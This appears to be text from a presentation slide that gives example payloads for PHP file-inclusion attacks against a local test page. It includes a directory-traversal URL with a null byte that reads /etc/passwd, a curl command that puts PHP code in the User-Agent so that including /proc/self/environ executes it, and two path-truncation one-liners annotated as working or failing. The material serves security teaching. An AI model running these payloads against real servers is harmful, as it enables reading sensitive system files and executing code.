

# Examples, examples, examples
http://localhost/fitest/rfi.php?page=../../../../../../etc/passwd%00
curl –A “<?php phpinfo(); ?>” http://localhost/fitest/rfi.php?page=../../../../../../proc/self/environ%00
php -r 'include("a/../../../../etc/passwd".str_repeat("/.", 2027)."/.append.inc"); <- works
php -r 'include("./../../../../etc/passwd".str_repeat("/.", 2027)."/.append.inc"); <- Failz